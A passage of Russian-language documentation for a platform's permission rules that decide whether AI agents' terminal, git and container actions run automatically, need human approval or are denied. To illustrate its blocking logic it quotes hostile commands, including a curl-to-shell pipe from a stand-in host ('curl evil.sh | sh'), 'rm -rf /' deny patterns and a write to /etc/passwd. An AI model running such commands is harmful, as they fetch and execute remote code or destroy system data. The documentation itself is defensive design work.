

# Разрешения

Каждое действие с внешним эффектом рождается как `proposed_action` и проходит
здесь перед выполнением. Эта страница — точный формат и семантика; сами
правила находятся в [Бизнес-правилах](../business-rules.md#rn-004).

## Файл

`permissions.json` живёт в **корне рабочего пространства проекта** — это
настоящий файл на диске, версионируемый, а не колонка в базе.

```json
{
  "allow": ["Terminal(pnpm test:*)", "Terminal(git status)"],
  "deny":  ["Terminal(curl:*)"],
  "ask":   ["GitPush()"]
}
```

Три списка, три значения:

| список | значение |
|---|---|
| `allow` | `auto_approve` — действие выполняется без вопроса |
| `deny` | `deny` — отклонено, и ничто этого не отменяет |
| `ask` | `require_approval` — уходит в очередь одобрения |

Ни один список не совпал? Действие по умолчанию остаётся `pending`.
**Отсутствие правила никогда не становится разрешением.**

### С какими учётными данными выполняется автоодобренное действие

`auto_approve` означает, что **никто не решал**, —
`proposed_actions.decided_by` остаётся `NULL`. Это важно для исполнителя:
действию git против удалённого провайдера нужен токен, а «токена того, кто
решил» на этом пути не существует.

Ответ — **owner рабочего пространства** ([RN-082](../business-rules/custo.md#rn-082)),
тот же, что и для ключа LLM ([RN-058](../business-rules/custo.md#rn-058)), — кто
оплачивает счёт, тот оплачивает агентов, и это не меняется в зависимости от
того, кто нажимает.

Это стоит знать, потому что альтернатива ломается молча: пока api определяла
по `decided_by`, **каждый автоодобренный PR в удалённом репозитории умирал** с
`Requires authentication`, и путь работал, только когда человек нажимал на
каждый из них, — ровно та лестница, которой автономия призвана избегать.

## Формат шаблона

```
Label(content)
```

Метка — это тип действия в PascalCase. Содержимое используется только в
`Terminal`; в остальных типах оно должно быть **пустым** — `GitPush()`
совпадает с любым push, а `GitPush(algo)` не совпадает ни с чем.

| тип действия | метка | минимальная роль |
|---|---|---|
| `terminal` | `Terminal` | developer |
| `git_commit` | `GitCommit` | developer |
| `write_file` | `WriteFile` | developer |
| `git_push` | `GitPush` | maintainer |
| `pr_open` | `PrOpen` | maintainer |
| `git_repo_create` | `GitRepoCreate` | maintainer |
| `git_branch_create` | `GitBranchCreate` | maintainer |
| `git_branch_protect` | `GitBranchProtect` | maintainer |
| `open_adr_pr` | `OpenAdrPr` | maintainer |
| `open_infra_pr` | `OpenInfraPr` | maintainer |
| `git_merge` | `GitMerge` | maintainer |
| `instruction_patch` | `InstructionPatch` | maintainer |
| `parallelize` | `Parallelize` | maintainer |
| `raise_max_parallel` | `RaiseMaxParallel` | maintainer |
| `propose_execution_plan` | `ProposeExecutionPlan` | maintainer |
| `assess_implementability` | `AssessImplementability` | maintainer |
| `container_start` | `ContainerStart` | maintainer |
| `container_stop` | `ContainerStop` | maintainer |
| `container_remove` | `ContainerRemove` | maintainer |
| `spend` | `Spend` | **owner** |

Минимальная роль проверяется **до** файла. Без неё — `deny`:
`permissions.json` не даёт того, что запрещает IAM

`parallelize` (Фаза 14d) — единственное, чей эффект не касается кода или
репозитория: оно запрашивает больше АГЕНТОВ. Оно на уровне `maintainer` по той
же причине, что и `spend`, — расходы разрешает тот, кто отвечает за проект. Оно
существует только выше предела лида; внутри него действия нет, потому что
решать нечего
([RN-083](../business-rules/custo.md#rn-083))
([RN-005](../business-rules.md#rn-005)).

`propose_execution_plan` (ADR 0086, [RN-284](../business-rules.md#rn-284))
— это план Dev Lead: сколько агентов на модуль и почему, до того как
поднимется хоть один. Тот же калибр, что у `parallelize`: решение о том,
СКОЛЬКО продукт потратит на параллелизм, только в начале, а не при превышении
предела. В отличие от `parallelize`/`raise_max_parallel`, оно НЕ входит в блок
абсолютных пределов — его можно настроить как `auto_approve`, как
`open_adr_pr`/`open_infra_pr`, — и пока оно `pending`, ход Dev Lead
ПРИОСТАНОВЛЕН в ожидании решения, а не просто разговор стоит.

`assess_implementability` (ADR 0090, [RN-340](../business-rules.md#rn-340))
— это оценка реализуемости истории (гейт `implementavel`,
`docs/gates.yml`) — ТОТ ЖЕ калибр и ТО ЖЕ рассуждение, что у
`propose_execution_plan`: начальное решение сессии, а не превышение предела, и
поэтому тоже вне блока абсолютных пределов. Оно так же приостанавливает ход
Dev Lead, пока находится в `pending`.

`container_stop` и `container_remove` (ADR 0136,
[RN-495](../business-rules.md#rn-495)) — два действия, которые глобальная
страница контейнеров (`/containers`) предлагает, когда кто-то нажимает
«Остановить» или «Удалить» в строке проекта, — всегда человек, никогда агент.
Оба — `maintainer`, как `container_start`: решает тот, кто отвечает за
инфраструктуру проекта. `container_stop` следует калибровке `container_start` —
его МОЖНО настроить как `auto_approve`, — за исключением посева:
`container_stop` никогда не засевается, тогда как `container_start` засевается
как `auto_approve` для агента Infra, когда его handoff принят (ADR 0190,
[RN-671](../business-rules.md#rn-671)). Именно этот посев позволяет подъёму,
который СЕРВЕР Infra Lead предлагает при этом принятии, пройти без второго
нажатия; минимум `maintainer`, отказы по режиму/состоянию и 409 без broker
по-прежнему действуют до него.
`container_remove` так нельзя: он уничтожает контейнер и вынуждает полное
повторное развёртывание, и он находится в блоке абсолютных пределов ниже, с тем
же отношением, что и git с внешним эффектом/привилегированные команды.

**Ни одному из трёх не важно, ГДЕ поднимается контейнер.** `decide()` и все
правила выше игнорируют `executionMode` — ветвление существует только при
ВЫПОЛНЕНИИ, после одобрения (`ExecuteContainerStartUseCase`/
`ExecuteContainerStopUseCase`/`ExecuteContainerRemoveUseCase`): одобренное
действие проекта `container` по-прежнему идёт в broker
(`ContainerBrokerPort`, без изменений); действие проекта `mounted`/`runner`
идёт вместо этого в RUNNER, подключённый к проекту, по каналу Phoenix, который
он уже поддерживает ([RN-497](../business-rules.md#rn-497),
[ADR 0137](../adr/0137-o-runner-sobe-o-container-do-projeto.md)). «Нет
подключённого runner» и «runner попытался и отказал» — два обычных исхода
`failed`, та же дисциплина, что и при отказе broker, — никогда не
необработанное исключение.

**При выполнении `container_start` происходит ещё одно, и только в
`mounted`** ([RN-501](../business-rules.md#rn-501),
[ADR 0142](../adr/0142-validacao-de-workspace-montado-adiada.md)): папка
проекта там МАТЕРИАЛИЗУЕТСЯ. Создание проекта `mounted` больше не требует,
чтобы папка существовала, — создание проверяет только формат пути плюс
`BRABO_PROJECTS_BASE`, — потому что требование владельца продукта состоит в
том, чтобы bind-mount создавался ПОСЛЕ решения Архитектора, а `container_start`
— первый подходящий момент. Поэтому исполнитель делает `mkdir -p` папки,
доказывает, что она доступна для записи изнутри api, и ставит отметку
`workspace_verified_at` — всё ДО любого перехода жизненного цикла. Папка,
которую api не может создать или достичь, — это ИМЕНОВАННЫЙ `failed`: он
называет переменную, путь, вероятную причину (владелец папки на хосте; образы
работают non-root, ADR 0024) и следующий шаг, — и строка жизненного цикла **не**
помечается `provisioning`: пометить её и только потом обнаружить, что писать
нельзя, означало бы оставить `project_containers` утверждающим состояние,
которого никогда не было. Ничто из этого не затрагивает `decide()`, пределы или
то, кто может одобрять.

**И `container_start` разрешает там свои ресурсы**
([RN-683](../business-rules.md#rn-683),
[ADR 0199](../adr/0199-recurso-minimo-derivado-do-module-map.md)): поле,
которое предложение ОПУСКАЕТ, — все поля при подъёме сервером при принятии
handoff, — становится МИНИМУМОМ, выведенным из действующего `module_map` (сумма
того, что объявил каждый модуль, с нижней границей в сегодняшнем значении по
умолчанию, пока какой-то модуль ничего не объявил); поле НИЖЕ этого минимума —
именованный `failed`, записываемый до любого решения об образе или перехода
жизненного цикла; выше него действует обычный предел. Как и материализация
папки, это выполнение, а не политика: `decide()` и то, кто может одобрять, не
меняются.

## Как шаблон сопоставляется с командой

Не по подстроке. Команда разбивается на токены по правилам shell, и шаблон
совпадает по **префиксу токенов**:

| шаблон | команда | совпадает? |
|---|---|---|
| `Terminal(pnpm test)` | `pnpm test` | ✅ |
| `Terminal(pnpm test)` | `pnpm test --watch` | ✅ (префикс) |
| `Terminal(pnpm test)` | `pnpm build` | ❌ |
| `Terminal(pnpm test:*)` | `pnpm test:unit` | ✅ (`*` в конце токена) |
| `Terminal(rm)` | `sudo rm -rf x` | ❌ — `rm` не первый токен |

`*` действует **внутри токена**, в конце. Это не glob путей:
`Terminal(rm -rf /*)` совпадает с буквальным токеном `/*`, а не с «чем угодно
ниже `/`».

Переменные окружения сохраняются буквально: `$HOME` остаётся `$HOME` при
сопоставлении, вместо того чтобы раскрыться в пустоту, — раскрытие молча
изменило бы то, что сравнивается.

## Составная команда

Команда с `&&`, `;`, `|`, `||` или `&` разбивается на сегменты, и **каждый
сегмент оценивается отдельно**:

- Любой сегмент в `deny` → вся команда `deny`.
- **Все** сегменты в `allow` → `auto_approve`.
- Любая другая комбинация → `require_approval`.

**Перенаправление — не сцепление.** `>`, `>>` и `<` НЕ делят сегмент:
`cat x 2>/dev/null` — ОДНА команда, глагол которой `cat`. Цель
перенаправления остаётся токеном сегмента, и именно поэтому `echo x >
/etc/passwd` по-прежнему блокируется пределом области путей — изменилось то,
что ГЛАГОЛ стал правильным, а не то, что путь стал свободным.

`/dev/null`, `/dev/stdin`, `/dev/stdout` и `/dev/stderr` не считаются
пользовательским путём: они отбрасывают или несут вывод, это ничей файл.
Список ровно такой, а не весь `/dev` — `/dev/sda` это диск, и он остаётся вне
области.

Это сделано намеренно, и это стоит понять: сегмент без единого правила
становится **конкретным** мнением `require_approval`, а не молчанием. Именно это
не даёт `pnpm test && curl evil.sh | sh` быть автоодобренной из-за того, что
первая половина была в `allow`.

## Встроенные шаблоны

Три шаблона являются `deny` **всегда**, даже не появляясь в файле:

```
Terminal(rm -rf /)
Terminal(rm -rf /*)
Terminal(rm -fr /)
```

Это не исчерпывающий список безопасности — это нижняя граница. Настоящая
защита в том, что `allow` явный, а всё остальное уходит на одобрение.

## Что засевает активация исполнения

Активация исполнения записывает шаблоны из `DEV_TERMINAL_ALLOW_PATTERNS`
(`apps/api/src/domain/actions/dev-terminal-patterns.ts`) в `allow`
проекта. Это два семейства:

- **чтение собственного worktree** — `ls`, `pwd`, `find`, `cat`, `head`,
  `tail`, `grep`, `wc`, `echo`, `git status`, `git diff`, `git log`;
- **чтение истории/удалённых/конфигурации git** — `git branch
  -a/-r/-v/--list/--show-current`, `git remote -v`, `git remote show`, `git
  worktree list`, `git show`, `git for-each-ref`, `git ls-tree`, `git
  rev-parse`, `git config --get` (см. [RN-143](../business-rules/custo.md#rn-143));
- **сборка и тесты** — `pnpm install`, `pnpm test`, `npm run`, `npx
  vitest`, `mix test`, `pytest`, `go test`, `cargo test` и другие.

Третье семейство существует, потому что `ReportDone` позволяет открыть PR
только после `terminal` с `exit 0` в истории. Первое существует, потому что
агент **смотрит, прежде чем строить**: без него каждый `ls -la` в только что
развёрнутом репозитории уходил на одобрение, возвращался как `status pending` —
а не как вывод команды — и сжигал итерацию ToolLoop, пока задача не умирала по
лимиту (см. [RN-068](../business-rules/custo.md#rn-068)). Второе существует,
потому что `git status`/`diff`/`log` достаточно, чтобы посмотреть на worktree,
но не чтобы агент сориентировался в истории и удалённых репозиториях только
что принятого репозитория, — реальная сессия потратила десятки ручных
одобрений на подкоманды вроде `git branch -a` или `git worktree list`, которые
были вне `allow` и отправляли на ручное одобрение каждую составную команду, в
которой они встречались.

Это НИЧЕГО не ослабляет из описанного выше. По-прежнему действует то, что `deny`
побеждает `allow`, что встроенные шаблоны остаются активными, что сопоставление
идёт по префиксу **токенов** (разрешённый `ls` не разрешает `lsof`) и что
составная команда требует совпадения КАЖДОГО сегмента, — поэтому `ls && rm -rf /`
не проходит из-за `ls`.

Второе семейство требует дополнительной осторожности, потому что сопоставление
по префиксу допускает ЧТО УГОДНО после совпавшего префикса: голый шаблон
`Terminal(git branch)` совпал бы и с `git branch -D nome` (удаляет), и с
`git branch nome-nova` (создаёт), помимо простого листинга, потому что не видит,
что идёт дальше. Поэтому `branch`, `remote`, `worktree` и `config` — четыре, у
которых есть ИЗМЕНЯЮЩИЙ брат, — вошли только ПРИВЯЗАННЫМИ к флагу, делающему
чтение однозначным (`-a`/`-v`/`show`/`list`/`--get`), никогда голым глаголом;
`git branch -D/-d/-m/-M`, `git remote add/remove/set-url`,
`git worktree add/remove/prune` и `git config <ключ> <значение>` (без `--get`)
по-прежнему требуют одобрения. `show`, `log`, `for-each-ref`, `ls-tree` и
`rev-parse` не нуждались в привязке: ни одно их продолжение не изменяет
репозиторий.

Автоодобрение `terminal` через `agent_autonomy` было бы другим, и так не
делается: оно разрешило бы ЛЮБУЮ команду внутри контейнера engine, без файла
посередине.

## Полный порядок решения



**Узел `Z` сменил позицию** ([RN-418](../business-rules.md#rn-418), пересматривает
[RN-106](../business-rules/autenticacao.md#rn-106)): до появления локального
runner он стоял сразу после IAM и возвращал `deny` — теперь это
ПРЕДЕЛ, в том же финальном блоке, что и остальные три, применяемый после того,
как `agent_autonomy` и `permissions.json` уже высказались. Почему — см. раздел
[«Граница внешнего эффекта и привилегированной команды»](#a-fronteira-de-efeito-externo-e-comando-privilegiado-rn-418)
ниже.

### «Автоматический режим»: подстановочный знак `agent_autonomy` ([RN-153](../business-rules/autenticacao.md#rn-153))

Узел `у agent_autonomy есть мнение?` на диаграмме выше не знает, и ему не нужно
знать, пришло ли мнение из КОНКРЕТНОГО правила (`actionType: "terminal"`) или из
подстановочного знака `actionType: "*"` — «автоматического режима»: автономии
для ЛЮБОГО типа действия этого агента, включаемой одним нажатием на
«Автоматический режим» в `ApprovalCard`. Разрешение происходит ДО начала этой
диаграммы, в одном репозитории: `DrizzleAgentAutonomyRepository.findMode` ищет
конкретное правило и подстановочный знак одним запросом и возвращает
конкретное, когда есть оба, — запись `terminal: deny` при включённом
`"*": auto_approve` по-прежнему запрещает `terminal` для этого агента, разрешая
остальное.

Поэтому на диаграмме не появился новый узел, а пределы, сразу ниже, действуют для
«автоматического режима», потому что реагируют на `current.policy === 'auto_approve'`,
никогда на его происхождение ([RN-154](../business-rules/autenticacao.md#rn-154)).

**Одно исключение, решённое владельцем продукта: автоматический режим снимает
область путей** ([RN-603](../business-rules/autenticacao.md#rn-603),
[ADR 0167](../adr/0167-modo-automatico-libera-o-escopo-de-caminho.md)).
Репозиторий возвращает также, ОТКУДА пришла автономия
(`AgentAutonomyRepository.resolve`: `especifica` или `curinga`), и `decide()`
получает это как `ctx.autonomyOrigin`. Когда подстановочный знак разрешается в
`auto_approve`, исчезают два запроса одобрения: [предел области
путей](#path-scope) и `require_approval`, который составная команда
синтезирует для сегмента без единого правила. Поэтому агент в автоматическом
режиме выполняет любую команду terminal, даже вне папки проекта, — измерено в
`exp001`: 47 из 51 запроса после включения автоматического режима исходили
только от области, потому что dev agent работает внутри контейнера (`/work`), а
область сравнивается с корнем ХОСТА. Всё остальное остаётся: `deny` побеждает,
`ask`, записанный в файле, спрашивает, предел внешнего эффекта/привилегий
(push, PR, deploy, `sudo`/`doas`) срабатывает первым и игнорирует
происхождение, а merge в защищённую ветку, `instruction_patch`, параллелизм и
`container_remove` никогда не автоодобряются. КОНКРЕТНОЕ правило
(`terminal: auto_approve` или `terminal: require_approval`) не является
автоматическим режимом и сохраняет предел области.

Когда одобренный человеком `git_merge` ВЫПОЛНЯЕТСЯ и провайдер сообщает PR как
`merged`, задача, из которой пришёл PR, переходит в `done` — один раз:
повторный merge того же PR не перемещает её снова и не записывает второе событие
`backlog.task_status_changed` ([RN-628](../business-rules.md#rn-628)). Сам merge
никогда не автоматизируется ([RN-418](../business-rules.md#rn-418)).

`git_merge` ОТКЛОНЯЕТСЯ до создания, когда тот же PR уже был слит предыдущим
выполнением (409 `pr_ja_mergeado`) или у него уже есть живое предложение —
ожидающее, одобренное или автоодобренное (409 `merge_ja_proposto`); отклонённое
или неудавшееся не мешает попробовать снова. Одобрение ожидающего merge, PR
которого уже слило другое предложение, тоже 409 `pr_ja_mergeado`, и действие
остаётся `pending`. Ещё ожидающий гейт QA/SecOps НЕ является отказом: вкладка PR
и чат только ПРЕДУПРЕЖДАЮТ, называя гейт, а кнопка остаётся доступной
([RN-663](../business-rules.md#rn-663)).

«Автоматический режим» требует `maintainer` — ту же роль, что уже защищала
`PUT .../agent-autonomy` до появления подстановочного знака. Выключение
переиспользует переключатель manual/auto, который уже был у карточки агента в
Обзоре/Исполнителях: при записанном подстановочном знаке переключатель
редактирует ЕГО вместо обычного представительного типа, а «manual» в нём — это
тот же подстановочный знак, перезаписанный как `require_approval`.

### Нижняя граница контейнера ([RN-492](../business-rules.md#rn-492)/[RN-493](../business-rules.md#rn-493), [ADR 0134](../adr/0134-dev-agents-executam-dentro-do-container.md))

Узел `C0` на диаграмме выше новый: когда действие — `terminal` И у проекта есть
контейнер, ЗАРЕГИСТРИРОВАННЫЙ как `running` в `project_containers`
(`execution_mode: container` — проверяется `ProposeActionUseCase`, который уже
читает тот же жизненный цикл контейнера, что и сторона выполнения), БАЗОВОЕ
значение перестаёт быть `require_approval` и начинается как `auto_approve`.

Это нижняя граница, а не новый предел, и различие важно: каждый следующий этап
(`agent_autonomy`, `permissions.json`) уже ЗАМЕНЯЕТ базовое значение, когда у
него есть явное мнение, — тот же механизм, который уже позволял правилу `deny`
или шаблону `ask` перекрыть стандартный `require_approval`. Старт с
`auto_approve` вместо `require_approval` не меняет этого свойства: явный
`deny` или совпавший шаблон `ask` по-прежнему побеждает нижнюю границу ровно так
же, как побеждал стандарт. А четыре предела ниже (`S`, `Z`, `H` и правило
составной команды) продолжают действовать поверх, безусловно, откуда бы ни
пришёл `auto_approve` — из нижней границы или из явного правила, — `git push`
внутри работающего контейнера по-прежнему `require_approval`, как всегда.

**Почему это безопасно: вторая, более сильная граница, а не отсутствие
границы.** Вне контейнера ЛЕКСИЧЕСКАЯ область путей ниже
(`comandoNoEscopo` против `projectScopeRoot`, путь ХОСТА) — это то, что делает
безопасным автоодобрение через `permissions.json allow`. Внутри настоящего
контейнера команда физически не видит ничего вне `/work` — mount namespace
Docker, — а broker независимо перепроверяет, что `cwd` находится внутри
`/work`, прежде чем что-либо запустить (`DiretorioForaDoEscopoError`).
**Лексическая область путей продолжает работать поверх нижней границы, без
изменений**: `cwd`/`command`, приходящие в `decide()`, никогда не переводятся в
`/work` (этот перевод происходит позже, на стороне engine, прямо перед вызовом
broker), поэтому команда, которая сегодня была бы помечена вне области,
по-прежнему помечается вне области при включённой нижней границе, — это
избыточная эшелонированная защита, а не замена.

## Граница внешнего эффекта и привилегированной команды (RN-418) {#a-fronteira-de-efeito-externo-e-comando-privilegiado-rn-418}

**Пересмотр [ADR 0065](../adr/0065-container-por-projeto-a-fronteira-deixa-de-ser-politica.md)
в [ADR 0102](../adr/0102-revisao-do-adr-0065-teto-absoluto-substitui-deny.md)**
— ГЛОБАЛЬНОЕ и явное решение владельца продукта, подтверждённое после
автоматического предупреждения безопасности об изменении (вся история — в
ADR). Ниже описано ТЕКУЩЕЕ поведение; прежняя версия (безусловный `deny`,
применяемый до любого разрешающего этапа) была заменена, а не ослаблена, —
почему, см. сразу ниже.

`git push`, `git remote add`/`set-url`, `git merge`, CLI провайдеров
(`gh pr create`, `gh pr merge`, `glab mr create`/`merge`, релизы и
workflow dispatch), распространённые команды deploy (`kubectl apply`, `helm
upgrade`, `terraform apply`, `docker push`, `npm publish`, ...) и теперь
также `sudo`/`doas` в команде `terminal` являются **АБСОЛЮТНЫМ ПРЕДЕЛОМ** (а
начиная с [RN-689](../business-rules.md#rn-689) — и ТИПИЗИРОВАННЫЕ действия
`git_push` и `pr_open`, которые до того подстановочный знак `"*"`, конкретное
правило или `permissions.json` повышали до `auto_approve`) — в том же
финальном блоке, что и остальные три предела (см. [«Пределы»](#caps) ниже),
применяемом после того, как `agent_autonomy` и `permissions.json` уже
высказались: если вердикт до этого был `auto_approve`, он становится
безусловным `require_approval`. Ни подстановочный знак `"*"` «автоматического
режима», ни запись `allow` в `permissions.json` не могут повысить его обратно.

**Почему `require_approval` теперь безопасен, когда раньше требовался `deny`.**
Историческая причина `deny` была конкретной: «всегда разрешать» записывает
шаблон в `allow`, и одного нажатия хватило бы, чтобы открыть дверь навсегда.
Эта брешь закрыта В ИСТОЧНИКЕ, а не обойдена:
`ApproveAlwaysActionUseCase`/`patternsForAction`
(`apps/api/src/application/use-cases/actions/approve-always-action.use-case.ts`)
ОТКАЗЫВАЮТСЯ записывать шаблон в `allow` для действия terminal с внешним
эффектом git или привилегированной командой — пользователь по-прежнему
одобряет конкретный экземпляр обычным путём, но «всегда разрешать» никогда не
записывает шаблон в этих двух случаях. Без этого отказа предел был бы
декоративным.

`sudo`/`doas` получили собственную категорию в `external-effect.ts`
(`comandoPrivilegiadoNoComando`), совпадая по ГЛАГОЛУ в любом сегменте — тот же
принцип, что и у `efeitoExternoNoComando` для git, который по-прежнему
совпадает по **префиксу токенов**, игнорируя глобальные флаги посередине
(`git -C /tmp push` совпадает с `git push`). Проверяется каждый сегмент
составной команды: `pnpm test && git push origin main` блокируется вторым
сегментом, так же как составная команда уже требует совпадения каждого
сегмента, чтобы стать `auto_approve`.

Предел не отнимает у агента возможностей: для git сообщение об ошибке
по-прежнему указывает, какое **типизированное** действие использовать —
`git_push`, `git_merge` или `pr_open`, — которое рождается как
`proposed_action`, проходит обычный конвейер и записывает в event log, что и
куда было отправлено (это путь, которым dev agent уже пользуется сегодня,
`agent_io.ex`). У `sudo`/`doas` нет эквивалентного типизированного действия —
сообщение лишь объясняет, почему эта команда требует решения человека.

**Где это важнее всего теперь**:
[локальный runner](../adr/0103-runner-local-execucao-na-maquina-do-usuario.md)
выполняет УЖЕ одобренные команды на машине самого пользователя, с его
привилегиями, — ровно тот сценарий, в котором легитимный `sudo` (или попытка
выйти через `sudo`) нуждается в остановке человеком, гарантированной
конструкцией, а не соглашением `permissions.json`.

**`container_remove` (ADR 0136, [RN-495](../business-rules.md#rn-495))
попадает в тот же отказ «всегда разрешать»**, через механизм проще описанного
выше: это не команда `terminal`, сопоставляемая по токенам, а собственный
`actionType`, поэтому `ApproveAlwaysActionUseCase` отклоняет нажатие для этого
типа — никакой шаблон не записывается, и пользователь одобряет конкретный
экземпляр обычным путём. `container_start` и `container_stop` так НЕ
отклоняются: их можно настроить как `auto_approve`, тот же калибр, что у
`open_adr_pr`/`open_infra_pr`, — `container_stop` никогда не засевается, а
`container_start` засевается для агента Infra при принятии его handoff
начиная с ADR 0190.

**Порядок нажатия «всегда разрешать» ([RN-642](../business-rules.md#rn-642)).**
Одобрение и шаблон записываются в ОДНОЙ транзакции: шаблон (в `allow` или в
`agent_autonomy` для dev agent модуля) и его событие `permission.granted`
записываются только после того, как переход из `pending` признан допустимым, а
шаблон, который не удалось записать, отменяет одобрение. `permissions.json` —
файл и в транзакцию не входит — остаточное окно в том, что commit упадёт после
записи файла, объявлено. Нажатие на действие, которое уже вышло из `pending`
через ОДОБРЕНИЕ (двойной клик, то же ожидающее действие, показанное в двух
панелях), — идемпотентный успех, `desfecho: "ja_aprovada"`, который записывает
шаблон, только если его не хватает; нажатие на ОТКЛОНЁННОЕ действие
по-прежнему `409` с `reason: "acao_ja_recusada"` и ничего не записывает.
Пределы выше проверяются раньше всего этого, даже для уже одобренного действия.

**ТИПИЗИРОВАННАЯ половина предела (AT-320).** До 30/09 отклонялся только
набранный `git push`; типизированное действие `git_push` проходило и
записывало `GitPush()` в `allow`. «Всегда разрешать» теперь отклоняет, по
типу, единый список `TIPOS_SEM_SEMPRE_PERMITIR`
(`apps/api/src/domain/actions/sempre-permitir.ts`): `git_push`, `pr_open`,
`git_merge`, `container_remove`, `instruction_patch`, `parallelize` и
`raise_max_parallel` — `400` с `reason: "teto_do_sempre_permitir"`. Карточка
одобрения скрывает кнопку для того же списка (копия, сверяемая с этим тестом).
Когда это появилось, оно НЕ изменило ни `decide()`, ни то, что засевает
активация исполнения; начиная с [RN-689](../business-rules.md#rn-689) оба
изменились: `git_push` и `pr_open` находятся внутри предела RN-418 в `decide()`
(см. [«Пределы»](#caps)), а активация исполнения засевает только `git_commit`
как `auto_approve` для каждого `dev-<modulo>`.

**Единица записываемого шаблона: глагол + подкоманда, по одному на сегмент
([RN-675](../business-rules.md#rn-675), решение владельца от 01/10).** «Всегда
разрешать» больше не записывает команду целиком байт в байт: каждый сегмент
команды (разделённой по `&&`, `||`, `;`, `|`, `&`, так же, как её делит
`decide()`) становится шаблоном — глагол плюс подкоманда, когда второй токен —
слово (`npm test`, `git status`, `mix test`, `npx vitest`), глагол отдельно,
когда это аргумент, не являющийся словом (`cat src/x.ts` → `Terminal(cat)`,
`cd ../lib` → `Terminal(cd)`), и ТОЧНЫЙ сегмент, когда второй токен — флаг
(`ls -la src`) или когда единица была бы префиксом предела RN-418
(`git remote -v`, `gh pr list` остаются точными). Сегмент, который является
префиксом предела даже в точном виде (`git` отдельно), ничего не записывает.
`cd src/app && npm test` записывает `Terminal(cd)` и `Terminal(npm test)`, и
следующий `cd lib/core && npm test -- --coverage` выполняется без вопроса.
Сопоставление по-прежнему по префиксу токенов, пределы по-прежнему работают
после файла в `decide()`, а область путей по-прежнему действует вне
автоматического режима. Нажатие dev agent модуля по-прежнему идёт в
`agent_autonomy`, а не в шаблон ([RN-509](../business-rules.md#rn-509)).

## Область путей {#path-scope}

Команда `terminal` оценивается также по тому, **чего она касается**, а не
только по глаголу ([ADR 0055](../adr/0055-escopo-de-caminho-na-politica-de-terminal.md),
[RN-075](../business-rules/custo.md#rn-075)). Папка проекта —
`<PROJECT_WORKSPACES_ROOT>/<workspace_dir_name>`, где живут
`permissions.json` и все worktree агентов, — это **область**.
`workspace_dir_name`
([ADR 0066](../adr/0066-nome-de-pasta-legivel-do-workspace.md),
[RN-109](../business-rules/autenticacao.md#rn-109)) — имя папки,
замороженное при создании проекта, — читаемое (`<slug>-<8 символов id>`) в
новом проекте, чистый UUID в проекте, созданном до этого изменения.

**У проекта в режиме `local` другая область, и разница здесь важна**
([ADR 0072](../adr/0072-projeto-local-ou-container.md),
[RN-169](../business-rules/autenticacao.md#rn-169)/[RN-170](../business-rules/autenticacao.md#rn-170)):
корнем становится **абсолютный путь, который пользователь ввёл при создании**, а
не `join(PROJECT_WORKSPACES_ROOT, workspace_dir_name)`.

Всё, что описывает этот раздел, по-прежнему действует — область сужает и
расширяет точно так же, и `deny` по-прежнему побеждает первым. Меняется то, что
она СОДЕРЖИТ. И последствие объявлено в ADR 0072 без смягчения:
**структурное** сдерживание `join` — «результат никогда не выходит из
управляемого корня, что бы ни случилось с колонкой» — для таких проектов
перестаёт существовать. Его заменяет проверка при создании (RN-170:
абсолютный, без `..`, существующий, доступный для записи, никогда не системный
корень, никогда не перекрывающий checkout Brabo), плюс ЛЕКСИЧЕСКАЯ повторная
проверка того же предиката при каждом выводе корня — чтобы строка, подделанная
прямо в базе, не превратилась в область terminal в `/`.

Сравнение путей **лексическое и без regex над входом**: обрезка конечных
слэшей — это проход O(n), а не `.replace(/\/+$/, '')`. Старый шаблон CodeQL
отметил как полиномиальный ReDoS (HIGH) — он заставляет движок пробовать
каждую начальную позицию и деградирует до O(n²) при множестве слэшей. Вход
здесь приходит из команды агента, так что это не место для regex с
backtracking.

Область делает две противоположные вещи, и важна их комбинация:

**Сужает.** Команда, касающаяся внешнего пути, никогда не автоодобряется, как
бы глагол ни был в `allow`. Без этого разрешённый `Terminal(cat)`
автоматически выполнил бы `cat
/workspace/apps/engine/lib/engine/actions/git_executor.ex` — код платформы,
на которой работает агент, — и добрался бы до worktree других проектов.

**Расширяет.** Внутри области `cd` перестаёт быть глаголом, требующим
разрешения: он сам является объявлением области. Без этого dev agent, который
всегда выдаёт `cd <путь> && <глагол>`, упёрся бы в правило составной
команды — каждый сегмент должен совпасть — и **каждая** команда
останавливалась бы на одобрение, как бы глагол ни был разрешён.

Четыре ограничения, которые стоит понять:

- **Область разрешает, но не освобождает.** Нахождение в папке проекта не
  делает `curl … | sh` безопасным: глагол вне `allow` по-прежнему требует
  одобрения.
- **Вне области — `require_approval`, а не `deny`.** У агента может быть
  законная причина посмотреть наружу; решаете по-прежнему вы.
- **Автоматический режим пропускает этот предел.** Агент с подстановочным знаком
  `"*": auto_approve` выполняет команды вне области без вопроса
  ([RN-603](../business-rules/autenticacao.md#rn-603)); возврат карточки
  агента в «manual» восстанавливает его.
- **Нормализация лексическая, а не `realpath`.** `<корень>/../..` разрешается и
  отклоняется; символическая ссылка внутри проекта, указывающая наружу, **не**
  обнаруживается. Область — это политика, а не изоляция.

Какие токены проверяются: **абсолютные** (начинаются с `/`) и содержащие
`..`. Относительный без `..` разрешается ниже `cwd`, который уже проверен, —
а считать `-maxdepth`, `4` или `*.ex` путём значило бы отклонять законную
команду, не выигрывая никакой безопасности.

Два свойства, вытекающие из этого:

**`deny` побеждает сразу.** Неважно, на каком этапе он появился, он возвращается
сразу. Нет настройки, которая отменила бы `deny`.

**Молчащий этап никогда не понижает.** Если `agent_autonomy` сказал
`auto_approve`, а в `permissions.json` нет правила для этого действия,
